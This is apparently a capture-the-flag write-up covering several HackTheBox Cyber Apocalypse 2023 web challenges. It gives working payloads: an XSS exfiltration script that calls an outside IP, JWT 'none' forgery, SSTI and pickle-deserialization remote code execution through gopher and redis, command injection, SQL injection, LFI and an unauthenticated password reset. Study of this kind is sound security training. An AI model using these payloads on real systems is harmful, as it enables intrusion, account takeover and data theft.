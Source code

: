 # HTB-CA23
HackTheBox CyberApocalypse 2k23 writeups (Rowra)

## Web/Spybug
* after registering an agent, you can update its details, which is then reflected on the admin site. `XSS` works!
* the page implements `script-src: self` so we can't use `RFI` or even `inline` scripts. That scripts needs to be local!
* we can upload `wav` files which after being uploaded end up in the `/uploads` directory, with a `uuid` name and no extension. No extension can indeed be loaded as working `js`
* the upload process has some validators but they're all easily cheated: the original extension is irrelevant for our payload and the latter check only validates if the proper wave file magic bytes are present in the file, however, it doesn't need to begin with those to pass the test!
* summarizing the steps are:
1. register an agent
2. craft & upload a malicious javascript-wave file 
3. update the agent's details to implement the XSS, using the previously uploaded javascript file - which is local by now
4. wait for the callback and receive the flag

Due to the sheer complexity of this challenge I programmed it:
```
import requests 
import sys 
 
base = 'http://127.0.0.1:1337' 
base = f'http://{sys.argv[1]}' 
s = requests.Session() 
 
def agent_register(): 
    url = f'{base}/agents/register' 
    r = s.get(url) 
    return r.json() 
 
def agent_upload(agent, payload): 
    url = f'{base}/agents/upload/{agent["identifier"]}/{agent["token"]}' 
    mfd = {'recording': ('test.wav', payload, 'audio/wave')} 
 
    r = s.post(url, files=mfd) 
    if r.status_code == 200: 
        return r.text 
    raise Exception('ERROR failed to upload') 
 
def agent_update(agent, data): 
    url = f'{base}/agents/details/{agent["identifier"]}/{agent["token"]}' 
    r = s.post(url, json=data) 
    return 'SUCCESS' if r.status_code == 200 else 'ERROR' 
 
# step 1 agent regisztráció 
agent = agent_register() 
 
# step 2 malicious wav - javascript feltöltés 
payload = b''' 
window.location = 'http://84.236.80.251:4444/' + document.getElementsByTagName("h2")[0].innerText.split("Welcome back ")[1]; 
''' # a lényeg 
payload += b'\n/*' # új sor + egy komment kezdet, biztos ami biztos 
payload += b'\x52\x49\x46\x46\x2f\x2a\x16\x00\x57\x41\x56\x45' # WAVE magicbyte és/vagy ami kell a backendnek 
payload += b'*/' # van egy `/*` karakter a WAVE magic byte -ban, amire sír a JS, szóval le kell zárni :D 
 
filename = agent_upload(agent, payload) 
print(f'Got filename {filename}') 
 
 
# step 3 XSS az admin panelre ;] 
data = {'hostname': f'<script src="/uploads/{filename}"></script>', 
        'platform': 'pwnd by', 
        'arch': 'RWR'} 
 
print(agent_update(agent, data))
 
```

## Web/Didactic Octo Paddle
* in `middleware/AdminMiddleware.js` you can notice the `else` clause in which `jwt.verify` func. call's 2nd parameter is `null`. This means there's not crypt involved. This obviously means very easily crafted JWTs
* the only `algorithm` matching this is `none`, however, the code's supposed to defend against that with an early return in the code
* with some trial & error I managed to bypass the mentioned early return by using the algorithm `NONE` _(capital)_. Meaning the actual working payload as follows _(parts are separated by a `.` dot)_:
1st part: `echo -n '{"typ":"JWT","alg":"NONE"}' | base64`
2nd part: the one you already have, just change `id` to `1` _(admin's id)_
3rd part: empty _(nothing following the `.`)_
* as the webapp's admin, still need to access `/flag.txt`. The code rendering `/admin` endpoint uses `JSRender NodeJS`. All that was left to do is to register a user with a username that's exploiting SSTI and then check `/admin` page for the flag. Working payload:
`{"username":"{{:\"pwnd\".toString.constructor.call({},\"return global.process.mainModule.constructor._load('child_process').execSync('cat /flag.txt').toString()\")()}}","password":"fdg"}`

## Web/Trap Track
* you can read `admin:admin` admin creds from the source code
* you can follow the flow of the code but a check added on the admin page eventually lands at `worker/curltest.py`. It's quite obviously unsanitized, will run anything
* there's a python pickle deserialization which is a pretty bad practice and unsafe if we can control the input. It happens at multiple stages but I chose `application/cache.py`'s `get_job_queue` function as I deemed it pretty stable and easily reproduced at any time. This functions expects a `job_id` after which it'll read the job with that id from redis and unserialize it without any sanitization, again. The API endpoint belonging to this function call is `/api/tracks/<id>/status`
* `libcurl` can do `gopher` and redis may be controller through gopher calls.
* To put it all together and summarize:
1. generate payload:
```
import pickle 
import base64 
import os 
 
class RWR: 
    def __reduce__(self): 
        cmd = '''curl -XPOST http://127.0.0.1:1337/api/tracks/add -d "{\\"trapName\\": \\"`/readflag`\\", \\"trapURL\\": \\"http://1.2.3.4\\"}" -H "Co
ntent-Type: application/json" -H "Cookie: session=<admin cookie here>"''' 
        return os.system, (cmd, ) 
 
 
if __name__ == '__main__': 
    pickled = pickle.dumps(RWR()) 
    b64 = base64.b64encode(pickled).decode() 
    print(f'gopher://127.0.0.1:6379/_hset%20jobs%204444%20{b64}')
```
2. add the `gopher://` link received _(payload)_ on the admin page
3. detonate payload by `GET`ting `/api/tracks/4444/status`
4. go back to the admin site to collect the flag from the name of yet another added entry

## Web/Passman
* register a random user
* play around with the `graphql` queries and realise that `helpers/GraphqlHelper.js` line `#96` `UpdatePassword` does not check anything. A simple auth will do just fine and you can edit anyone's password
* craft a malicious `graphql query`:
{"query":"mutation($username: String!, $password: String!) { UpdatePassword(username: $username, password: $password) { message } }","variables":{"username":"admin","password":"hahayouredone"}}
* login as admin

## Web/Gunhead
* the `/PING` command is pretty shady. Feels like it's passed straight through to shell
* `/ping 127.0.0.1; whoami` works just fine
* `/ping 127.0.0.1; ls /` shows the flag as `/flag.txt`
* `/ping 127.0.0.1; cat /flag.txt`

## Web/Trapped Source
* in the source code you can see the `js` included `/static/js/script.js`
* `script.js` has a function called `checkPin` which checks if entered ping is equal to `CONFIG.correctPin`
* just enter `CONFIG.correctPin` in the browser console and get the correct code `7298`

## Web/Orbital
* in `database.py` you can see that it ojnly queries the user and checks the password later on, trying to prevent sqli. It didnt really work as expected, it's just as vulnerable just maybe a little more difficult. Working payload with `union injection`: `admin" union select "rowra","bb84c3e15018b35b6994f3ad7cb1c453" order by username desc-- -` _(is the username)_ and gecosz is the password
* payload for the `/api/export` endpoint is a simple `LFI`: `{"name": "../signal_sleuth_firmware"}`

## Web/Drobots
* `database.py` hints it's going to be sqli and it's pretty visible too
* login as username `admin` password: `1" or "1"="1"-- -`

